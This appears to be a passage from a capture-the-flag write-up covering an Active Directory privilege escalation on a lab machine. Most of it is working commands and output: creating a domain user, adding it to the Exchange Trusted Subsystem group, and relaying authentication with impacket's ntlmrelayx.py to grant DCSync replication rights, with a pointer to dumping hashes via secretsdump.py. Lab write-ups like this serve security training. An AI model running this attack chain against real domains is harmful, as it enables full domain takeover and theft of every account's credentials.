     C:\Users\svc-alfresco\Documents>net user created_01 M<redacted> /add /domain
    net user created_01 Marteau69! /add /domain
    The command completed successfully.

    C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM"
    net group "EXCHANGE TRUSTED SUBSYSTEM"
    Group name     Exchange Trusted Subsystem
    Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Exchange configuration, as well as user accounts and groups. This group should not be deleted.

    Members

    -------------------------------------------------------------------------------
    EXCH01$                  sol                      svc-alfresco
    The command completed successfully.


    C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    The command completed successfully.

We then launch [impacket's ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/)
with the `escalate-user` parameter. We try it by authenticating in our browser on 127.0.0.1.

    :::text
    ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user created_01
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Protocol Client SMTP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server

    [*] Servers started, waiting for connections
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Client requested path: /
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [*] Querying domain security descriptor
    [*] Success! User created_01 now has Replication-Get-Changes-All privileges on the domain
    [*] Try using DCSync with secretsdump.py and this user :)
    [*] Saved restore state to aclpwn-20191105-184250.restore
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [-] Exception in HTTP request handler: [Errno 32] Broken pipe
    [-] [Errno 32] Broken pipe
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [-] ACL attack already performed. Refusing to continue
